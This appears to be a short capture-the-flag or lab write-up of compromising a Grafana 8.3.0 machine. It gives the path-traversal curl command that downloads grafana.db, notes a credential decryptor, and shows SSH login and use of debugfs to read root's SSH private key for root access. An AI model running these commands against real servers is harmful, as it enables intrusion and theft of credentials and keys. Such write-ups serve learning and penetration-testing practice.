








We have grafana 8.3.0 vulnerable to LFI

```
curl http://192.168.182.181:3000/public/plugins/alertlist/../../../../../../../../../../../../..//var/lib/grafana/grafana.db --path-as-is -o grafana.db
```
Now we have grafana.db



Checking data_source table:

We have a hashed credential


Using this [exploit](https://github.com/Sic4rio/Grafana-Decryptor-for-CVE-2021-43798)
We can decrypt it:


Now trying ssh:
```
ssh sysadmin@192.168.182.181
```


Now checking groups we belong to:

We can get access to root files:
```
df -h
debugfs /dev/sda2
cd /root
cat /root/.ssh/id_rsa
```

Now we can access root through ssh:
```
ssh root@192.168.182.181 -i id_rsa
```
